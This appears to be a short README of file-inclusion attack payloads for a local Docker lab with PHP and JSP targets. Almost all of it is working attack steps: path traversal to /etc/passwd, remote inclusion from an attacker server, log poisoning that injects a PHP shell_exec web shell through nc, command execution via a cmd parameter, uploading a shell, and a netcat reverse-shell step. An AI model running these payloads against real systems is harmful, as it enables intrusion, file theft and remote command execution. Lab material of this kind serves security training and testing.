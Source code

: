# Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls
- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd
- http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:80/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
